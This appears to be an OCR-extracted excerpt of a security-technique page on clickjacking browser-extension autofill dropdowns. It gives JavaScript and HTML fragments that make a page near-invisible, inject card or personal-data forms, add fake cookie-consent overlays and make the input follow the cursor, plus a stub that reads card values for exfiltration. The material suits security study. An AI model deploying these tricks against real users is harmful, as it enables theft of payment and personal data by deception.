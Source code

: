 - Parent element
  - BODY/HTML opacity tricks to make extension UI invisible while page looks normal (e.g., screenshot background):

```js
// Hide full page, then reveal a tiny amount to keep clicks working
document.body.style.opacity = 0
// Optional: Show a screenshot/lookalike to avoid a blank screen
// document.documentElement.style.backgroundImage = 'url(website.png)'

// Inject a credit-card form and focus to trigger dropdown
/* create #cardform with #cardnumber, #expiry, #cvc */
document.getElementById('cardnumber').focus()
// Make body barely visible to allow user interaction
document.body.style.opacity = '0.001'

function getCardValues() {
  const num = document.getElementById('cardnumber').value
  const exp = document.getElementById('expiry').value
  const cvc = document.getElementById('cvc').value
  // exfiltrate via XHR/fetch/websocket
}
```

- Overlay
  - Partial overlay: occlude everything but a few pixels so the dropdown remains clickable (ensure attacker overlay is last in DOM with max z-index, or use Top Layer).
  - Full overlay using pointer-events:none so clicks pass through to the hidden dropdown; keep it persistent with the Popover API:

```html
<div id="overlay" popover style="pointer-events:none;">Cookie consent</div>
<script>
  overlay.showPopover()
  // Inject a personal data form and focus to trigger dropdown
  /* create #personalform with #name/#email/#phone/... */
  document.getElementById('name').focus()
  function getData(){ /* read + exfil values on change */ }
</script>
```

### Positioning the victim click

- Fixed placement: position the hidden dropdown under a believable control such as “Accept cookies”, “Close”, or a CAPTCHA checkbox.
- Follow-mouse: move the focused input under the cursor so the dropdown tracks it; refocus periodically so a single click anywhere selects an item:

```js
const f = document.getElementById('name')
document.addEventListener('mousemove', e => {
  personalform.style = `top:${e.pageY-50}px;left:${e.pageX-100}px;position:absolute;`
  // some managers hide the dropdown if focus is lost; refocus slowly
  setTimeout(() => f.focus(), 100)
})
```
